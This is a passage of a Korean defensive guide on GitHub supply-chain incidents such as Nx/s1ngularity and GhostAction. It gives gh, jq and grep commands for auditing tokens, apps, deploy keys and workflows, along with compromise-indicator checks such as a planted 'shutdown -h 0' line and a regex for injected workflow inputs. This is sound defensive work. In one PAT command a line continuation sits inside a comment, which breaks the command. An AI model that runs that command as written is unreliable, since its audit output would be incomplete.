| Nx 유출 규모 | GitGuardian 집계 시크릿 2,349건, 저장소 1,346개(The Hacker News 인용) | Wiz 집계 GitHub 토큰 1,000개 이상, 그중 90%가 유효(같은 기사의 인용) | 시크릿 전체와 GitHub 토큰만 센 것이라 단위가 다르다. 두 값 모두 2차 인용이고 원문 보고서는 이번에 열람하지 못했다. |
| Nx 2차 피해 | Wiz: 480개 계정, 비공개 저장소 6,700개 이상 공개 전환 | 1차 업로드 저장소와는 별개 집계 | 1차와 2차를 합산하면 안 된다. |
| Ultralytics 시각 | Woodruff의 분 단위 타임라인 | PyPI 블로그에는 날짜만 있음 | 타임존이 원문에 없다. 날짜만 신뢰하고 시각은 상대 간격으로만 쓴다. |

## 책임 경계를 가르는 법

사고를 보고 나서 "이건 GitHub가 막았어야 하나, 우리가 막았어야 하나"를 가르려면 질문을 세 번 하면 된다. 여섯 건은 이 순서로 갈라진다.



경계가 흐린 곳이 하나 있다. `pull_request_target`이 시크릿을 주는 트리거라는 점은 GitHub가 설계한 동작이다. 그러나 그 워크플로에 PR 제목을 셸로 넘기는 줄을 쓴 것은 저장소 소유자다. 나는 이 경우를 사용자 쪽에 둔다. 플랫폼이 위험한 트리거를 제공한다는 것과 그 트리거를 위험한 방식으로 쓴다는 것은 별개이고, 고칠 수 있는 쪽은 워크플로를 쓴 쪽뿐이기 때문이다. 반면 Heroku·Travis CI는 사용자가 막을 수 있는 범위가 훨씬 좁다. 이 경우의 사용자 대응은 사고 전에 OAuth 앱 승인을 줄여 두는 것, 사고 후에 토큰을 폐기하는 것이다.

분류가 중요한 이유는 대응이 다르기 때문이다. GitHub 쪽 사고는 공지를 보고 따라가면 되고, 사용자 쪽 사고는 우리 조직의 설정을 직접 열어 봐야 한다.

## 내 조직에서 오늘 확인할 것

아래 명령은 `gh` CLI와 `jq`가 필요하다. 조직 owner 권한의 토큰으로 로그인하고, audit log 조회에는 `read:audit_log` 스코프가 필요하다. 문서에 넣은 `jq` 필터와 `grep` 정규식은 응답 샘플로 로컬에서 돌려 보았다. `gh api`를 실제 조직에 호출하는 부분은 이 문서를 쓴 환경에서 조직 권한이 없어 실행하지 못했으므로, 처음 한 번은 출력 형태를 눈으로 확인한다.

```bash
gh auth refresh -h github.com -s admin:org -s read:audit_log
export ORG=my-org          # 조직 이름으로 바꾼다
```

### GitHub App 설치 목록과 OAuth 앱 승인 이력

조직에 설치된 GitHub App은 REST로 바로 나온다. 권한이 넓은 앱(`contents:write`, `actions`, `administration`)과 오래 전에 설치한 앱부터 본다.

```bash
gh api --paginate "orgs/$ORG/installations" --jq '
  .installations[]
  | [.app_slug, .repository_selection, .created_at, .updated_at,
     (.permissions | to_entries | map("\(.key):\(.value)") | join(","))]
  | @tsv'
```

조직이 승인한 서드파티 OAuth 앱의 현재 목록을 뽑는 REST 엔드포인트는 확인하지 못했다. 대신 audit log에서 승인 이벤트를 조회한다. 이벤트 안의 앱 이름 필드는 이벤트마다 달라서 날짜, 행위, 행위자만 뽑고 나머지는 원본 JSON으로 본다.

```bash
gh api --method GET "orgs/$ORG/audit-log" \
  -f phrase='action:org.oauth_app_access_approved created:>=2025-01-01' \
  -F per_page=100 --paginate \
  --jq '.[] | [((.["@timestamp"] / 1000) | floor | todate), .action, .actor] | @tsv'

# 한 건의 전체 필드를 본다
gh api --method GET "orgs/$ORG/audit-log" \
  -f phrase='action:org.oauth_app_access_approved' -F per_page=1 | jq '.[0]'
```

`gh api`에서 `-f`를 쓰면 기본이 POST로 바뀐다. 그래서 `--method GET`을 반드시 붙여야 쿼리 문자열로 간다. 이 조회는 플랜에 따라 막힐 수 있다. 문서(GitHub Docs)는 엔드포인트의 플랜 제한을 명시하지 않았지만, 404나 403이 나오면 웹 UI의 조직 감사 로그에서 같은 phrase로 검색한다.

### Fine-grained PAT

조직에 접근하는 fine-grained PAT 목록은 GitHub App만 호출할 수 있다. 사용자 토큰으로 `gh api orgs/$ORG/personal-access-tokens`를 치면 거부된다. 이 조회용 GitHub App을 조직에 설치하고(PAT 조회 권한 필요) 설치 토큰으로 호출한다. `last_used_before`로 오래 안 쓴 토큰만 골라낼 수 있다.

```bash
# APP_INSTALLATION_TOKEN: 조회용 GitHub App 의 설치 액세스 토큰
GH_TOKEN="$APP_INSTALLATION_TOKEN" gh api --paginate --method GET \
  "orgs/$ORG/personal-access-tokens" \
  -f last_used_before="$(date -u -d '90 days ago' +%Y-%m-%dT%H:%M:%SZ)"  # GNU date. macOS 는 date -v-90d \
  --jq '.[] | [.owner.login, (.token_name // "-"), (.access_granted_at // "-"),
               (.token_last_used_at // "never"), (.token_expires_at // "none")] | @tsv'
```

응답 필드 이름은 공식 문서에서 파라미터 쪽만 확인했다. 출력 열이 `-`로 비면 `| jq '.[0]'`로 실제 필드 이름을 본다. classic PAT는 조직 쪽에서 목록을 뽑는 REST 엔드포인트를 확인하지 못했다. audit log의 `action:personal_access_token` 이벤트와 개인 설정 화면으로 본다. 이름이 없는 토큰(`never`가 찍히는 것)과 만료일이 없는 토큰이 정리 대상이다.

### Deploy key

deploy key는 저장소 단위라 저장소를 돌면서 모은다. 아카이브된 저장소도 포함해야 한다(Heroku 사고의 입구가 아카이브 저장소였다). `gh repo list`는 기본이 아카이브 포함이다. 저장소 admin 권한이 없으면 해당 저장소는 404가 나오고 건너뛴다.

```bash
gh repo list "$ORG" --limit 1000 --json nameWithOwner --jq '.[].nameWithOwner' |
while read -r repo; do
  gh api --paginate "repos/$repo/keys" \
    --jq ".[] | [\"$repo\", .title, (.read_only | tostring), .created_at, (.added_by // \"-\"), (.last_used // \"never\")] | @tsv" \
    2>/dev/null
done | sort -t$'\t' -k4
```

`read_only`가 `false`이고 `last_used`가 `never`이거나 오래된 키가 먼저 지울 후보다. 쓰기 가능한 deploy key는 저장소에 푸시할 수 있는 장기 비밀이다.

### 워크플로 쪽

`pull_request_target`을 쓰는 저장소를 조직 전체에서 찾는다. 코드 검색 결과는 색인 지연이 있어서 누락될 수 있다. 의심 목록을 만드는 용도이지 전수 검사가 아니다.

```bash
gh search code 'pull_request_target path:.github/workflows' --owner "$ORG" \
  --limit 200 --json repository,path --jq '.[] | "\(.repository.nameWithOwner)\t\(.path)"'

# GhostAction 이 쓴 파일 이름
gh search code --owner "$ORG" --filename github_actions_security.yml
```

로컬에 받아 둔 저장소에서는 외부 입력이 셸 줄에 치환되는 곳을 grep으로 찾는다. 이 정규식은 `${{ github.head_ref }}`, PR 제목·본문, 이슈 제목·본문, 댓글, 리뷰 본문을 잡는다. `env:` 아래에 값을 받는 줄은 안전한 형태이므로 `grep -v`로 걸러 낸다. `with:` 입력에 들어간 경우는 그대로 남으니 눈으로 본다.

```bash
grep -rnE '\$\{\{[^}]*github\.(head_ref|event\.(pull_request\.(title|body|head\.ref|head\.label)|issue\.(title|body)|comment\.body|review\.body))' \
  .github/workflows | grep -vE '^[^:]+:[0-9]+:\s+[A-Za-z_]+: \$\{\{'
```

최근 워크플로 파일이 바뀐 이력은 저장소별 커밋 목록으로 본다. 모르는 작성자나 시각이 이상한 커밋, "security"라는 이름이 붙은 새 파일이 단서다.

```bash
SINCE=2025-09-01T00:00:00Z
gh repo list "$ORG" --limit 1000 --no-archived --json nameWithOwner --jq '.[].nameWithOwner' |
while read -r repo; do
  gh api --method GET "repos/$repo/commits" -f path=.github/workflows -f since="$SINCE" -F per_page=100 \
    --jq ".[] | [\"$repo\", .commit.author.date, .commit.author.name, .sha[0:7], (.commit.message | split(\"\n\")[0])] | @tsv" \
    2>/dev/null
done
```

### 이미 당했는지 보는 흔적

Nx 사고 이후 Wiz가 권고한 이벤트를 조회한다. 비공개 저장소가 공개로 바뀌면 `repo.access`가 남고, GitHub가 토큰을 대신 폐기하면 `org_credential_authorization.deauthorize`가 남는다.

```bash
for a in repo.access org_credential_authorization.deauthorize; do
  echo "== $a"
  gh api --method GET "orgs/$ORG/audit-log" -f phrase="action:$a created:>=2025-08-26" \
    -F per_page=100 --paginate \
    --jq '.[] | [((.["@timestamp"] / 1000) | floor | todate), .action, .actor] | @tsv'
done
```

개발자 PC와 CI 이미지에서 Nx 사고의 흔적을 본다. `nx` 영향 버전이 의존성 트리에 있었는지, 셸 설정에 종료 명령이 끼어들었는지, 계정에 `s1ngularity-repository`가 생겼는지다.

```bash
npm ls nx --all 2>/dev/null | grep -E 'nx@(21\.(5|6|7|8)|20\.(9|10|11|12))\.0\b'
grep -n 'shutdown -h 0' ~/.bashrc ~/.zshrc 2>/dev/null
ls -l /tmp/inventory.txt 2>/dev/null
gh repo list --limit 1000 --json name --jq '.[].name' | grep -i 's1ngularity'
```

### 밖으로 나간 우리 코드 찾기

Toyota 같은 사고는 조직 밖에서 시작한다. 사내 도메인이나 내부 호스트 이름을 공개 코드 검색에 넣어 본다. 결과가 나오면 소유자와 저장소를 확인하고 해당 소스 안의 키를 회전한다. 저장소를 비공개로 돌리는 것만으로는 이미 clone된 사본을 막지 못한다.

```bash
# internal.example.com 은 사내 도메인 또는 내부 호스트로 바꾼다
gh search code '"internal.example.com"' --limit 100 --json repository,path,url \
  --jq '.[] | "\(.repository.nameWithOwner)\t\(.path)\t\(.url)"'
```

여기까지 나온 목록에서 우선순위는 세 가지다. 쓰지 않는 deploy key와 OAuth 앱, 만료가 없는 PAT, 시크릿을 쓰는 워크플로 중 `pull_request_target`이거나 외부 입력을 셸에 넣는 것. 이 순서로 하나씩 닫는다. 키를 폐기하기 전에 어디서 쓰이는지 확인하는 것은 [CI/CD 파이프라인 공격](CI_CD_Pipeline_Attacks.md)의 회전 절을 따른다.
